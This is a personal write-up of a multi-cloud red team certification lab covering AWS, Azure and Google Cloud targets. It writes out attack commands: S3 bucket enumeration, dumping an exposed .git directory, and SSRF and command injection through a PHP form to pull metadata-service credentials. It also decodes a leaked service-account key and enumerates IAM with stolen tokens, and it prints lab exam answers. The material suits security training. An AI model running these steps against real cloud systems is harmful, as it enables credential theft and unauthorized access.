





# MCRTA Multi Cloud Red Team Technical Writeup

Austin BC

I passed CyberWarFare Labs' Multi-Cloud Red Team Analyst exam on October 28, 2026. The work covered AWS, Azure and Google Cloud, starting with exposed assets and following the identities available to the workloads behind them.

My Azure application screenshots show the requests I tried. My saved Azure and GCP answer-board records also distinguish accepted answers from values that were still unchecked when captured. I no longer have a complete terminal transcript, particularly for AWS, so the command examples below reconstruct the methods in the walkthroughs by Shikhali Jamalzade and Farid Narimanov [1, 2]. They aren't a claim that I ran every command exactly as printed. An entered answer stays unconfirmed unless the saved record shows it accepted.

## AWS

### Finding the bucket and development server

The starting clue was CWL Meta Tech. The reference workflow used `cloud_enum` to generate likely bucket names, then checked anonymous access with the AWS CLI. This was asset discovery followed by an access check, a bucket name alone wouldn't establish a data leak.

```bash
cloud_enum -k cwl-metatech --disable-azure --disable-gcp
aws s3 ls s3://cwl-metatech-prod --no-sign-request --recursive
```

The reference identified `http://cwl-metatech-prod.s3.amazonaws.com/` and listed `dev-server-ip.txt`, `prod-data.txt` and `staging-data.txt`. The development IP file supplied the next host. The production data reportedly contained fictional customer records, including the record associated with Bob. I don't have my own accepted AWS board or that customer's exact value, so these remain reference results.

```bash
aws s3 cp s3://cwl-metatech-prod/dev-server-ip.txt - --no-sign-request
aws s3 cp s3://cwl-metatech-prod/prod-data.txt - --no-sign-request
```

Reading named objects tested the bucket's anonymous permissions directly. It also explained how a storage exposure could lead to an application foothold without scanning unrelated cloud addresses.

### Reading the exposed PHP source

The development host ran a PHP URL Score Calculator. The reference authors recovered an exposed `.git` directory and inspected `process.php` instead of assuming every URL field was vulnerable.

```bash
git-dumper http://<DEV_SERVER_IP>/.git /tmp/aws-gitdump
cat /tmp/aws-gitdump/process.php
```

The source connected `ip` to `file_get_contents()` and `organization` to `system()`. Those are separate paths: a server-side fetch and shell command execution. The command path checked the first command against an allowlist containing `ls`, `hostname`, `curl` and `cat`. Allowing `curl` still left a way to make requests with custom headers. A score endpoint that only calculated a dummy value wouldn't exercise either sink.

The exposed repository disclosed implementation details; the unsafe input handling made them useful. I don't have a personal source dump to present as my own discovery.

### Following the instance role

The next reference step asked EC2 metadata for the attached role name, then requested that role's temporary credentials. This example reconstructs the first request through the `ip` fetcher:

```bash
curl -s -X POST "http://<DEV_SERVER_IP>/process.php" \
  -d "url=x&date=2024-01-01" \
  --data-urlencode "ip=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

That is an IMDSv1-style request. It depends on the instance allowing that metadata flow; it doesn't demonstrate a bypass of IMDSv2. EC2 role sessions supply an access key, secret key and session token [3]. Once all three are configured locally, the identity check is:

```bash
aws sts get-caller-identity
```

Its account and assumed-role ARN identify the caller. They don't prove permission to read IAM policies or S3 objects. I haven't retained the role name or a successful credential response from my own run.

### Mapping IAM relationships

The reference then queried users, group membership, attached policies and role trust:

```bash
aws iam get-group --group-name interns
aws iam list-groups-for-user --user-name emp003
aws iam list-roles
aws iam list-user-policies --user-name emp001
aws iam list-attached-group-policies --group-name employees
```

These calls answer different questions. `get-group` lists members of `interns`; `list-groups-for-user` finds the groups associated with `emp003`. Inline policy names and attached managed policy names come from different APIs. The role records expose trust relationships for roles such as `crossaccount-role` and `dev-role`.

A permission policy describes allowed actions. A trust policy describes who may assume a role. Finding an account in a trust policy doesn't establish that the current session can assume it. This phase mapped authorization; without a demonstrated additional action, I wouldn't call it privilege escalation. The exact AWS answers aren't recoverable from my saved session material.

## Azure

### Finding the application

The organization domain was `meta-tech.cloud`. The reference DNS discovery found `www.meta-tech.cloud` and `internal.meta-tech.cloud`. My saved answer-board record marked `internal` accepted, giving the host `internal.meta-tech.cloud`.

```bash
gobuster dns --domain meta-tech.cloud \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  --threads 20 --resolver 8.8.8.8 --timeout 5s
```

That command is the reference discovery example, not a recovered invocation from my terminal. DNS supplied a target; the application input handling was the vulnerability.



*The form asked for a URL, publication date, IP address and organization name.*

### Hitting the command filter

My early submissions returned `Command not allowed!!`. One screenshot shows `cyb` in the organization field. Another shows `az` there, with the instance metadata address in the URL and IP fields. Neither demonstrates an Azure CLI session.



*The application rejected the organization value and printed its command-filter message.*



*Setting the URL and IP to metadata addresses didn't make the organization command acceptable.*

The reference PHP allowlist explained that response. `az` wasn't one of the permitted command roots, while `curl` was. Continuing with arbitrary CLI names wouldn't resolve that restriction.

### Trying the metadata request

Azure IMDS requires the `Metadata: true` header. A URL passed directly to a simple `file_get_contents()` call doesn't add that header by itself. The command path could invoke `curl` with it [4, 5].

I entered a metadata URL and a curl-style organization value through the browser. One capture showed only `Thank you for your submission!`, with no visible token.



*The submission message didn't establish that IMDS returned an access token.*

The next capture was more useful. Developer Tools showed an outer HTTP 200 for the POST to `/process.php`, while the page displayed `Bad Request` and `HTTP Error 400`. The application served its page successfully, but the nested request had failed.



*The outer HTTP status and the error embedded in the response described different requests.*

The reconstructed command below uses `--data-urlencode` so the ampersand in the token URL stays inside the organization form value. The `/CSP-1/process.php` path comes from the reference walkthrough; my browser capture used `/process.php` at the host root. The route needs to match the application being tested.

```bash
curl -s -X POST "http://internal.meta-tech.cloud/CSP-1/process.php" \
  -d "url=x&date=2024-01-01&ip=x" \
  --data-urlencode 'organization=curl -s -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"'
```

This is a reference method for exercising the permitted shell command. My screenshots establish the failed browser attempts, not a successful token response. If the application concatenates output from both PHP sinks, the complete body may also contain multiple JSON objects. Extracting the first object is different from treating the whole response as one valid JSON document.

### Reading the token and subscription context

The next checkpoint in my saved board had the issuer and tenant answers marked accepted. The issuer was `https://sts.windows.net/68b40a4c-50f1-48f3-b7cb-916dd82418a7/`, and the tenant ID was `68b40a4c-50f1-48f3-b7cb-916dd82418a7`. The original token body and the command that obtained it weren't retained.

For a JWT-formatted token, this example decodes the payload locally:

```python
import base64
import json

token = "<ACCESS_TOKEN>"
payload = token.split(".")[1]
payload += "=" * (-len(payload) % 4)
claims = json.loads(base64.urlsafe_b64decode(payload))
print(claims.get("iss"), claims.get("tid"))
```

The claims identify the issuer and directory. Decoding them doesn't validate the signature.

The subscription ID `4ebaca3d-8642-4a01-b544-e62550598323` was also accepted in the saved board. Instance metadata is one way to retrieve the VM's subscription context:

```bash
curl -s -H "Metadata:true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

The value comes from the completed answer record, not a recovered metadata JSON response. Knowing the subscription identifies the environment; permission to administer it still depends on authorization.

### Checking roles and their scope

The board accepted `Reader` as the VM identity's subscription role and `Microsoft.Resources/subscriptions/resourceGroups/read` as an action in the custom role. The queries need to inspect the assignment and definition separately:

```powershell
Get-AzRoleAssignment -ObjectId '<VM_IDENTITY_OBJECT_ID>' |
  Select-Object RoleDefinitionName, Scope

Get-AzRoleDefinition -Name 'custom-role-definition' |
  Format-List *
```

These are reference query examples for an authenticated Az session. The assignment tells us which role is granted and where. The definition tells us its allowed operations. A definition's assignable scopes don't establish an effective assignment to this identity.

The scope answer was still unchecked in my screenshot. It ended in `/resourceGroups` under the subscription, while a separate answer sheet showed a visibly incomplete value ending in `/r`. Neither is enough to establish the final scope. I'd need the full `Scope` from the relevant assignment, including any resource-group name, rather than guessing from the subscription ID.

### Moving to Microsoft Graph

The directory results in my board were accepted: `it@meta-tech.cloud` for the IT Ops group member, `IT` for the owner display name of `prod-app`, and `User.Read.All` for the Microsoft Graph permission assigned to `dev-app`.

The reference approach requested a separate token for Graph:

```bash
curl -s -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://graph.microsoft.com/"
```

The requested resource matters. A token intended for Azure Resource Manager doesn't automatically authorize Graph requests. After authenticating the appropriate client with the Graph token, group and application lookups locate the objects:

```powershell
Get-MgGroup -Filter "displayName eq 'IT Ops'"
Get-MgApplication -Filter "displayName eq 'prod-app'"
```

Those two lookups alone don't return all three answers. Membership, ownership and application permission assignments require their corresponding relationship queries. The accepted answer record supports the values above; I don't have the original Graph response bodies.

## Google Cloud

### Following the repository credential

My saved board accepted `https://github.com/cwl-metatech/production-data` as the source repository. The reference workflow found `ENCRYPTED_GCP_KEY` in `pipeline.yml`, decoded its Base64 value and authenticated with the resulting service-account JSON.

```bash
# Save the pipeline value to encoded-key.txt before decoding it.
base64 -d < encoded-key.txt > dev-sa-key.json
gcloud auth activate-service-account --key-file=dev-sa-key.json
gcloud config list
```

The variable name didn't make the content encrypted. Base64 changed its representation while leaving the credential recoverable. The key itself and my extraction command weren't retained. The reference also noted that literal `\n` characters in a decoded private key may need conversion to actual newlines before authentication, but I don't have a saved error showing that happened in my session.

The accepted project answer was `mcrta-exam`. A separate answer sheet used `alert-nimbus-335411`. I keep the accepted value from my board while preserving the conflict. A key's `project_id` and the project selected for resource queries are separate fields to check; a service account's email domain also doesn't establish the project containing every resource it can access.

### Finding the instance and attached account

The accepted instance name was `stag-instance`. The reference inventory method was:

```bash
gcloud compute instances list --project mcrta-exam
gcloud compute instances describe stag-instance \
  --zone '<ZONE>' --project mcrta-exam \
  --format='json(serviceAccounts)'
```

Listing instances supplies the zone before describing a particular VM. The attached-account field in my board contained `vm-service-account@alert-nimbus-335411.iam.gserviceaccount.com`, but it was still unchecked. I can't promote that entered value to a confirmed answer.

This also introduced a second identity. The leaked development key and the account attached to the VM weren't interchangeable, their permissions had to be checked independently.

### Switching to the workload identity

The reference pivot used the vulnerable web service to request a token from the VM metadata server. Google Cloud requires `Metadata-Flavor: Google`, rather than Azure's metadata header [6]. The following is the request to execute from the workload context, not a request that reaches a remote VM when run on my laptop:

```bash
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"
```

I don't have a successful metadata-token capture from my run. The important change in the reference was the effective identity: requests using this token acted as the attached service account. A denied policy read with the development account wouldn't establish what the workload account could read. Its API access also depends on IAM permissions and applicable VM access scopes [7].

### Separating project IAM from instance IAM

The board accepted `reader` for the VM account's project role and `compute.instances.list` as a permission in the custom `VMRead*` role. `reader` is the saved exam answer, not a verified Google Cloud role identifier. The exact binding still needs to come from the policy response.

The reconstructed examples below explicitly use the VM token for the project policy and custom-role definition:

```bash
CLOUDSDK_AUTH_ACCESS_TOKEN="$VM_TOKEN" \
  gcloud projects get-iam-policy mcrta-exam --format=json

CLOUDSDK_AUTH_ACCESS_TOKEN="$VM_TOKEN" \
  gcloud iam roles describe '<EXACT_ROLE_ID>' --project=mcrta-exam
```

The binding identifies a principal and role; the definition supplies `includedPermissions`. `VMRead*` was the exam's role-name pattern, so the command needs the exact role ID returned by enumeration. The field naming the account with that role contained `dev-service-account@alert-nimbus-335411.iam.gserviceaccount.com`, still unchecked when captured.

For the development account's role on the compute instance, the board accepted `reader`. The reference queried the instance policy with the original development account, rather than continuing with the VM token:

```bash
# Use the development account authenticated earlier, without the VM-token override.
gcloud compute instances get-iam-policy stag-instance \
  --zone '<ZONE>' --project mcrta-exam
```

An instance policy and a project policy cover different grants. Reading only one doesn't establish the complete effective permission set, and retrieving a resource policy doesn't itself prove privilege escalation.

### Reaching storage

The last reference step used the VM token to list storage buckets, enumerate objects and read the license object. Listing buckets was only the discovery step:

```bash
curl -s -H "Authorization: Bearer $VM_TOKEN" \
  "https://storage.googleapis.com/storage/v1/b?project=mcrta-exam"
```

The saved board contained `stag-storage-metatech` for the bucket and `V13JG-NPH5M-S97JM-9MPGT-3S66T` for the license. Both were still unchecked. I preserve them as entered values, without inventing an accepted result or a missing object-read response. The filename would need to come from the actual object listing.

## Completion


*CyberWarFare Labs issued my Certified Multi-Cloud Red Team Analyst certificate on October 28, 2026.*

Writeup source: [MCRTA in my security writeups repository](https://github.com/xinatra99/writeups/tree/main/mcrta-multicloud).

## What I took from it

I need to track the identity behind each request as carefully as the endpoint. A metadata token is useful only within its audience, permissions and resource context. Keeping that context explicit makes a failed request easier to diagnose and prevents a role name from becoming an assumed capability.

I'd also save the raw responses alongside screenshots next time. The certificate confirms completion, but it can't reconstruct which command returned an answer or turn an unchecked field into a verified result.

## References

[1] Shikhali Jamalzade, [MCRTA Exam Walkthrough — Multi-Cloud Red Teaming on AWS, Azure & GCP](https://alisalive.medium.com/mcrta-exam-walkthrough-multi-cloud-red-teaming-on-aws-azure-gcp-6660e6c02d75), June 21, 2026. Reference methods used to reconstruct the command examples.

[2] Farid Narimanov, [MCRTA Exam Walkthrough — Breaking Into AWS, Azure & GCP](https://faridnarimanov.medium.com/mcrta-exam-walkthrough-breaking-into-aws-azure-gcp-531c7be05c67), July 14, 2026. Additional reference methods; these authors' sessions aren't my own terminal record.

[3] AWS, [IAM roles for Amazon EC2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html).

[4] Microsoft, [Azure Instance Metadata Service](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service).

[5] Microsoft, [Use managed identities on an Azure VM to acquire an access token](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token).

[6] Google Cloud, [View and query VM metadata](https://docs.cloud.google.com/compute/docs/metadata/querying-metadata).

[7] Google Cloud, [Service accounts on Compute Engine](https://docs.cloud.google.com/compute/docs/access/service-accounts).
